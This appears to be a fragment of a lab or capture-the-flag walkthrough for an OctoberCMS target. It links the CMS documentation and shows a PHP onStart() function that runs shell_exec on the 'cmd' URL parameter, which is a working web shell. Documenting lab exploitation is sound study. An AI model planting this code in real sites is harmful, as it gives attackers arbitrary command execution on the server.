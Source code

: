 Resource : https://docs.octobercms.com/2.x/services/response-view.html#returning-strings-from-a-cms-method

![image]( /assets/img/devguru/5.PNG)

```php
function onStart()
{
    $this->page["evilVar"] = shell_exec($_GET['cmd']);
}
```
